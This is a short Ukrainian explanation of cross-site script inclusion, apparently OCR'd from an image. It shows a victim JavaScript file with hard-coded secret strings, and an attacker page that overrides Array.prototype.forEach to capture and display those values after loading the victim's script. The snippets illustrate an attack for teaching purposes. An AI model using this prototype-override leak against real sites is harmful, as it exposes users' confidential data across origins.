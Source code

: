 Ось уривок файлу JavaScript, що містить конфіденційні дані, ```javascript.js```:
```
...
(function() {
  var secret = ["578a8c7c0d8f34f5", "345a8b7c9d8e34f5"];
  secret.forEach(function(element) {
    // do something here
  });  
})();
...
```

Конфіденційні дані можуть витікати за допомогою такого коду JavaScript:
```
...
 <div id="result">
    </div>
    <script>
      Array.prototype.forEach = function(callback) {
        var resultString = "Your secret values are: <b>";
        for (var i = 0, length = this.length; i < length; i++) {
          if (i > 0) {
            resultString += ", ";
          }
          resultString += this[i];
        }
        resultString += "</b>";
        var div = document.getElementById("result");
        div.innerHTML = resultString;
      };
    </script>
    <script src="http://victim.com/..../javascript.js"></script>
...
```
